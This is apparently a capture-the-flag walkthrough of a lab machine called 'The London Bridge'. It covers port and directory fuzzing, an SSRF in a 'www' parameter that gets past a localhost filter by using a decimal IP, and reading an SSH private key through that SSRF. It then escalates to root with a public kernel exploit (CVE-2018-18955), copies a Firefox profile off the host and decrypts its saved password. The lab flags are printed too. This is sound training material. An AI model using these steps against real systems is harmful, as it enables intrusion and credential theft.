## TL;DR

In this challenge we find endpoint with potential `SSRF`, we brute force and find the url parameter `www`. Then, we grab the private ssh key using request to internal service on port 80.

We privilege escalate to `root` using known exploit on the kernel version. 
The password of `charles` is being decrypted from the firefox profile.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `8080` with gunicron WSGI server.
```bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:c1:e4:79:ca:70:bc:3b:8d:b8:22:17:2f:62:1a:34 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDziNs6aSHIQOJFilv8PhCPd676iD1TrhMYe4p4Mj2E3yaAl4xb8DNT2dhpcv6H8EvtCJnAbXmnFTTOZy14fd7FKc2/Mr4MNLsINFpMU8hc85g6S9ZEnWKlU8dw5jUUeZnAbHSTnq6ARvEbT/Y5seiWEJ7IBiUqptlUA2eiOU7g0DFwrYH7n40aDe0m6PKPIfI9G0XO0cJHISeJ0bsSES1uun2WHLM0sRx+17hrBgM2YfD9OevcltVMlQqWasP9lqf2ooOdBvQTq4eH5UyyuEzaRtQwBYP/wWQEVFacejJE1iT2VD6ZAilhlzo9mww9vqTEwGTvatH65wiyCZHMvrSb
|   256 2a:b4:1f:2c:72:35:7a:c3:7a:5c:7d:47:d6:d0:73:c8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJuZrGZxDIlI4pU1KNZ8A87cWFcgHxRSt7yFgBtJoUQMhNmcw8FSVC54b7sBYXCgBsgISZfWYPjBM9kikh8Jnkw=
|   256 1c:7e:d2:c9:dd:c2:e4:ac:11:7e:45:6a:2f:44:af:0f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICkCeqFADY/YvhJyJabcs5DVTYbl/DEKEpBoluTuDdB1
8080/tcp open  http    syn-ack ttl 62 Gunicorn
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: gunicorn
|_http-title: Explore London
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `thelondonbridge.thm` to my `/etc/hosts`.

### Exploit SSRF found on url param www to get ssh private key

I started with fuzzing in port `8080`.
```bash
┌──(agonen㉿kali)-[~/thm/TheLondonBridge]
└─$ ffuf -u 'http://thelondonbridge.thm:8080/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://thelondonbridge.thm:8080/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

contact                 [Status: 200, Size: 1703, Words: 549, Lines: 60, Duration: 201ms]
feedback                [Status: 405, Size: 178, Words: 20, Lines: 5, Duration: 170ms]
gallery                 [Status: 200, Size: 1722, Words: 484, Lines: 55, Duration: 178ms]
upload                  [Status: 405, Size: 178, Words: 20, Lines: 5, Duration: 169ms]
dejaview                [Status: 200, Size: 823, Words: 226, Lines: 33, Duration: 183ms]
                        [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 165ms]
:: Progress: [220545/220545] :: Job [1/1] :: 237 req/sec :: Duration: [0:16:16] :: Errors: 0 ::
```

On gallery, we can see we are able to upload images:



I tried to upload webshell and trigger it, but it didn't work, it doesn't execute the php.
However, I did find something interesting as a comment:
```bash
To devs: Make sure that people can also add images using links
```



I continued exploring the endpoints, and visited `/dejaview`.



I tried to give some URL, but it simply added it as img element 



It screams here for `SSRF`, but it is not working. So, I tried to brute force for other url parameters, as the hint suggested.
We'll use the raw request for the fuzzing, save it inside `brute.FFUF`:
```bash
POST /view_image HTTP/1.1
Host: thelondonbridge.thm:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 44
Origin: http://thelondonbridge.thm:8080
Connection: keep-alive
Referer: http://thelondonbridge.thm:8080/dejaview
Upgrade-Insecure-Requests: 1
Priority: u=0, i

FUZZ=http%3A%2F%2F192.168.138.59%3A8081%2Fbla
```

And now, the brute forcing:
```bash
┌──(agonen㉿kali)-[~/thm/TheLondonBridge]
└─$ ffuf -u 'http://thelondonbridge.thm:8080/view_image' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -request brute.FFUF -fw 226

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://thelondonbridge.thm:8080/view_image
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Header           : Referer: http://thelondonbridge.thm:8080/dejaview
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Priority: u=0, i
 :: Header           : Host: thelondonbridge.thm:8080
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Origin: http://thelondonbridge.thm:8080
 :: Header           : Connection: keep-alive
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : FUZZ=http%3A%2F%2F192.168.138.59%3A8081%2Fbla
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 226
________________________________________________

www                     [Status: 200, Size: 335, Words: 84, Lines: 14, Duration: 504ms]
:: Progress: [4750/4750] :: Job [1/1] :: 233 req/sec :: Duration: [0:00:21] :: Errors: 0 ::
```

We find the parameter `www`. Let's verify the `SSRF` by setting up local python http server:
```bash
python3 -m http.server 8081
```
and send the request:
```bash
www=http://192.168.138.59:8081/bla
```



we can see it worked, the request for `/bla` has been received:



Now, that we have our `SSRF`, I tried to enumerate `127.0.0.1:80`, probably internal service.



we get back 403, permissions denied. I guess it happens because it detects I'm trying to access internal service, Using [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md#bypass-using-an-encoded-ip-address](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md#bypass-using-an-encoded-ip-address), we can replace `127.0.0.1` with `2130706433`, and then bypass the restriction.



Okay, now I wanna fuzzing with `LFI-Jhaddix.txt`, for potential LFI. So, again, create the raw request:
```bash
POST /view_image HTTP/1.1
Host: thelondonbridge.thm:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: http://thelondonbridge.thm:8080
Connection: keep-alive
Referer: http://thelondonbridge.thm:8080/dejaview
Upgrade-Insecure-Requests: 1
Priority: u=0, i

www=http://2130706433:80/FUZZ
```

and brute forcing:
```bash
┌──(agonen㉿kali)-[~/thm/TheLondonBridge]
└─$ ffuf -u 'http://thelondonbridge.thm:8080/view_image' -w /usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -request dir_search.FUFF -fw 96 -fc 5
00

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://thelondonbridge.thm:8080/view_image
 :: Wordlist         : FUZZ: /usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Origin: http://thelondonbridge.thm:8080
 :: Header           : Connection: keep-alive
 :: Header           : Referer: http://thelondonbridge.thm:8080/dejaview
 :: Header           : Priority: u=0, i
 :: Header           : Host: thelondonbridge.thm:8080
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Data             : www=http://2130706433:80/FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 500
 :: Filter           : Response words: 96
________________________________________________

/.bash_history          [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 172ms]
/.bashrc                [Status: 200, Size: 3771, Words: 522, Lines: 118, Duration: 168ms]
/.profile               [Status: 200, Size: 807, Words: 128, Lines: 28, Duration: 169ms]
/.ssh/authorized_keys   [Status: 200, Size: 393, Words: 3, Lines: 2, Duration: 170ms]
/var/www/localhost/htdocs/.htaccess [Status: 403, Size: 239, Words: 27, Lines: 5, Duration: 182ms]
:: Progress: [930/930] :: Job [1/1] :: 211 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

We can visit `.ssh`, which is very interesting:



Alright, let's grab the `id_rsa`:
```bash
www=http://2130706433:80/.ssh/id_rsa
```



We got the private key. I'll use it to login into the machine, with user `beth`, as we got from `/.ssh/authorized_keys`:



```bash
┌──(agonen㉿kali)-[~/thm/TheLondonBridge]
└─$ chmod 600 id_rsa                                                                                                                               
                                                                                                                                                                                             
┌──(agonen㉿kali)-[~/thm/TheLondonBridge]
└─$ ssh beth@thelondonbridge.thm -i id_rsa
```



Let's grab the user flag, which is hiding for some reason:
```bash
beth@london:~$ find / -name "user.txt" 2>/dev/null
/home/beth/__pycache__/user.txt
beth@london:~$ cat /home/beth/__pycache__/user.txt
THM{l0n6_l1v3_7h3_qu33n}
```

### Privilege Escalation to Root using vulnerability on kernel version

In order to move to root, we need to exploit priv esc vulnerability on the kernel. We can find it using linpeas.sh 



The CVE we'll exploit is `CVE-2018-18955`, we'll use the PoC from [https://github.com/scheatkode/CVE-2018-18955](https://github.com/scheatkode/CVE-2018-18955)

Let's first clone this repo, and then upload whole dir to the remote machine, at `/tmp`:



I tried to execute `bash exploit.dbus.sh` and got root shell.



The root flag is:
```bash
root@london:/root# cat .root.txt 
THM{l0nd0n_br1d63_p47ch3d}
```

### Find the password of charles using decryption of firefox profile

We can see on the home folder or `charles` firefox encrypted profile.
First, let's download the whole profile. 
- remote machine:
```bash
root@london:/home/charles/.mozilla/firefox# python3 -m http.server 8081                                                                          
```

- local machine:
```bash
wget -r http://thelondonbridge.thm:8081/8k3bf3zp.charles
```

Now, we'll use the tool [https://github.com/unode/firefox_decrypt/](https://github.com/unode/firefox_decrypt/) for firefox decryption:
```bash
┌──(agonen㉿kali)-[~/thm/TheLondonBridge]
└─$ python3 firefox_decrypt.py ./thelondonbridge.thm:8081/8k3bf3zp.charles 
2026-01-19 00:21:33,079 - WARNING - profile.ini not found in ./thelondonbridge.thm:8081/8k3bf3zp.charles
2026-01-19 00:21:33,079 - WARNING - Continuing and assuming './thelondonbridge.thm:8081/8k3bf3zp.charles' is a profile location

Website:   https://www.buckinghampalace.com
Username: 'Charles'
Password: 'thekingofengland'
```



and the password is `thekingofengland`.